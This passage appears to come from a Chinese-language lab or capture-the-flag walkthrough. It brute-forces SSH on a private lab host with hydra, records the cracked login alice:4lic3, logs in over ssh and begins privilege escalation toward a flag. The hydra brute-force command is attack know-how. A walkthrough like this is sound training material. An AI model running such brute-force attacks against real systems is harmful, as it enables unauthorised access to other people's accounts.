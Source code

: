 



### 22端口渗透



#### hydra爆破ssh服务

```
hydra -L username -P passwd ssh://192.168.147.133
```

![image-20250312213512183](assets/image-20250312213512183.png)

爆破成功

- alice：4lic3



#### ssh登录

```
ssh alice@192.168.147.133
```

![image-20250312213552645](assets/image-20250312213552645.png)

## 提权



### 得到第一个flag

```
ls -al
```
